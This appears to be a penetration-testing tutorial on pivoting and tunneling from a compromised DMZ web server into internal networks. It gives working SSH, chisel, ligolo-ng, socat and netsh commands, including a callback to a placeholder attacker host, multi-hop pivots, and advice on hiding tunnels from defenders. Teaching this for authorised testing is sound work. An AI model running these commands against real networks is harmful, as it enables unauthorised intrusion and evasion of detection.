

You compromise a web server in the DMZ. It has two network interfaces: the public one you came in on, and an internal one on `10.10.20.0/24` where the databases, the domain controller, and the admin jump box live. Your attacking machine can't route to `10.10.20.0/24` — there's no path. But the web server can talk to both.

**Pivoting** is turning that dual-homed host into a relay so your tools can reach the internal network *through* it. **Tunneling** is the mechanism — wrapping your traffic so it rides over a connection the compromised host already has. This post is the standard techniques, from a one-line SSH forward to a triple pivot, and the tradeoffs between them.

## When you need it

The tells: `ifconfig`/`ipconfig` on the foothold shows an interface on a range you can't reach; internal enumeration finds services on `127.0.0.1:<port>` or `10.x`/`172.16-31.x`/`192.168.x` that weren't in your external scan; a `netstat` shows established connections to hosts you can't ping.

## SSH port forwarding

If you have SSH access (credentials or a key) to the pivot, SSH does this natively — no extra tooling, encrypted, reliable.

- **Local forward (`-L`)** — expose one remote port on your machine. `ssh -L 8080:10.10.20.5:80 user@pivot` — now `localhost:8080` on your box reaches the internal web server on `10.10.20.5:80`. Good for a known single target.
- **Remote forward (`-R`)** — expose one of *your* ports on the pivot. `ssh -R 4444:localhost:4444 user@pivot` — an internal host connecting to `pivot:4444` reaches your listener. This is how you catch a reverse shell from a host that can't reach you directly.
- **Dynamic forward (`-D`)** — the powerful one. `ssh -D 1080 user@pivot` opens a **SOCKS proxy** on `localhost:1080`; any tool you point through it has its connections made *from the pivot*. Now your whole toolkit can reach the internal network, not just one port.

Point tools at the SOCKS proxy with **proxychains** (`proxychains4 nmap -sT -Pn 10.10.20.0/24`) or a tool's native `--proxy` option. Note: proxychains only tunnels TCP, `nmap` must use `-sT` (connect scan) and `-Pn`, and it's slow — one connection at a time.

`sshuttle` is a friendlier alternative: `sshuttle -r user@pivot 10.10.20.0/24` transparently routes that subnet through the pivot like a VPN, no proxychains, handles DNS.

## When you don't have SSH: chisel

The pivot is Windows, or has no SSH. **chisel** is a single Go binary (client and server in one) that builds an encrypted tunnel over HTTP/WebSocket — useful because HTTP egress is usually allowed.

Reverse SOCKS (pivot can reach you):

```
# your attacking machine
chisel server -p 8000 --reverse
# on the pivot
./chisel client YOUR_IP:8000 R:socks
```

Now `localhost:1080` on your machine is a SOCKS proxy through the pivot. Also does explicit port forwards (`R:3389:10.10.20.5:3389`).

## ligolo-ng: the modern default

**ligolo-ng** replaces proxychains entirely. The agent on the pivot connects back to a proxy on your machine, which creates a **TUN interface** — a virtual network adapter. You add a route (`ip route add 10.10.20.0/24 dev ligolo`) and then every tool on your machine reaches the internal network *natively*, full TCP and UDP, no proxychains wrapper, no `-sT` restriction, at near-native speed. It also handles reverse listeners cleanly. This is what most operators now reach for first.

## Layered pivots

The internal network has another segment behind *it* — `10.10.30.0/24`, reachable only from `10.10.20.5`. Compromise `10.10.20.5` through your first tunnel, then run a second agent on it that tunnels through the first pivot back to you. With ligolo-ng you add a second route; with SSH you chain `-D` through a proxychains config that lists both hops; with chisel you daisy-chain servers. The principle is the same at every layer — each pivot exposes the next network, and you keep stacking.



## Windows-native and no-tooling options

- **netsh interface portproxy** — built into Windows: `netsh interface portproxy add v4tov4 listenport=3389 connectaddress=10.10.30.7 connectport=3389`. No binary to drop, but needs admin and shows in config.
- **socat** — `socat TCP-LISTEN:8080,fork TCP:10.10.20.5:80` on the pivot, a simple relay.
- **Metasploit** — `route add` through a Meterpreter session plus the `socks_proxy` module gives proxychains-style access from the framework.

## OPSEC

- Tunnels are noisy to a defender watching flows — a long-lived connection from a web server to an odd external IP, or a workstation suddenly talking to the whole subnet. Prefer egress over ports/protocols that blend in (443), keep the tunnel count low, and tear down listeners when a phase is done.
- A reverse SOCKS listener on `445` on your attacking box will *break* direct SMB tooling against a DC — stop the listener when you need `impacket`/`certipy` to talk to the DC directly.
- Internal DNS names won't resolve for your tools unless you add them to `/etc/hosts` *and* route DNS through the pivot (ligolo and sshuttle handle this; proxychains with `proxy_dns`).

## The one idea to keep

The first compromised host is a doorway: pivoting turns it into a relay so your whole toolkit can reach networks you have no route to. If you have SSH, `-D` gives you a SOCKS proxy (drive it with proxychains or sshuttle); if you don't, chisel builds one over HTTP; and ligolo-ng's TUN interface is the modern choice because it makes the internal network routable natively — full TCP/UDP, no proxychains. Chain agents hop by hop to reach networks two and three layers deep.
